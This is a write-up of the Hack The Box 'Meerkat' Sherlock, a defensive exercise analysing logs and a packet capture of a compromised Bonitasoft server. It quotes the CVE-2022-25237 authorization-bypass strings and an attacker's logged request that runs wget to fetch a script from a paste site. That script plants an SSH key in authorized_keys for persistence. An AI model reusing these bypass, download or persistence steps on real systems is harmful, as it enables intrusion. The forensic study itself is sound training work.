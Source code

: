 ```yaml
---
{"dg-publish":true,"permalink":"/meerkat/"}
---
```


###### Summary 
 This Sherlock is focusing on working with Zeek logs and network analysis using PCAP.
 
[Link to this Sherlock on HTB Labs](https://app.hackthebox.com/sherlocks/552/play)

I used Timeline Explorer to process alert logs because I was working on Windows VM without WSL. Alternatively, jq could be used. For network analysis I used Wireshark, but Tshark was also required to answer one of the questions.
###### Challenge Scenario
"As a fast-growing startup, Forela has been utilising a business management platform. Unfortunately, our documentation is scarce, and our administrators aren't the most security aware. As our new security provider we'd like you to have a look at some PCAP and log data we have exported to confirm if we have (or have not) been compromised."
###### Walkthrough
1. We believe our Business Management Platform server has been compromised. Please can you confirm the name of the application running?
	While going through alert logs, I identified the following alert: `@{severity=1; signature=ET EXPLOIT Bonitasoft Authorization Bypass M1 (CVE-2022-25237); category=Attempted Administrator Privilege Gain; action=allowed; signature_id=2036818; gid=1; rev=1; metadata=}` at 2023-01-19T15:31:31.042Z

2. We believe the attacker may have used a subset of the brute forcing attack category - what is the name of the attack carried out?
	There a lot of HTTP Post requests containing credentials of work accounts. This is a sign of a credential stuffing.

3. Does the vulnerability exploited have a CVE assigned - and if so, which one?: 
	Answer to question 3 can be found initially during alerts analysis.

4. Which string was appended to the API URL path to bypass the authorization filter by the attacker's exploit?: 
	While reading about the exploit https://rhinosecuritylabs.com/application-security/cve-2022-25237-bonitasoft-authorization-bypass/ I found out that Bonita appends either “/i18ntranslation/../” or “;i18ntranslation” to the API URL to allow authorization to be bypassed. I correlated this info with pcap in Wireshark and found the answer.
	![Pasted image 20250212150133.png](/img/user/Pasted%20Images/Pasted%20image%2020250212150133.png)

5. How many combinations of usernames and passwords were used in the credential stuffing attack?: 
	Not difficult question yet I stuck here and had to address the official write-up. My Wireshark display filter `http.request.full_uri == "http://forela.co.uk:8080/bonita/loginservice" && !http` contains "install" was displaying 59 entries, but there were 3 repetitions in the very end which shouldn't have been counted. After additional research I concluded that the easiest way to find the solution to this question with a filters would be through Tshark command 
	`tshark -Y '(http.request.uri == "/bonita/loginservice") && (!http contains "install")' -r meerkat.pcap -T json | jq '.[]._source.layers.http."http.file_data"' | sort | uniq | wc -l`

6. Which username and password combination was successful?
	Looking through network logs we can see someone running a command whoami, it prompted me to follow HTTP stream and I was able to see there authentication attempt with positive response, namely status code 204.
	
	*The HTTP 204 No Content status code indicates that the server has successfully processed the request, but there is no content to send in the response body. This status code is particularly useful for operations that do not require the client to navigate away from the current page or display any new information. ![Pasted image 20250216102441.png](/img/user/Pasted%20Images/Pasted%20image%2020250216102441.png)

7. If any, which text sharing site did the attacker utilise?
	Continuing investigating Wireshark logs we are able to see a GET request with remote command execution which has a website URL that fits out description. 
	`GET/bonita/API/extension/rcep=0&c=1&cmd=wget%20https://pastes.io/raw/bx5gcr0et8 HTTP/1.`

8. Please provide the filename of the public key used by the attacker to gain persistence on our host.
	If we carefully follow the link above (using Browserling, for example) we can see a bash script that appends data from https://pastes.io/raw/hffgra4unv to `/home/ubuntu/.ssh/authorized_keys`. The data it retrieves is SSH key, and it is also seen that TA executes ssh restart after getting the key. Hence, we can conclude this is used to achieve persistence.

9. Can you confirm the file modified by the attacker to gain persistence?
	Answer can be found in the previous question.

10. Can you confirm the MITRE technique ID of this type of persistence mechanism?
	Account Manipulation: SSH Authorized Keys sub-technique is on MITRE website, which confirms the previous assumption.

 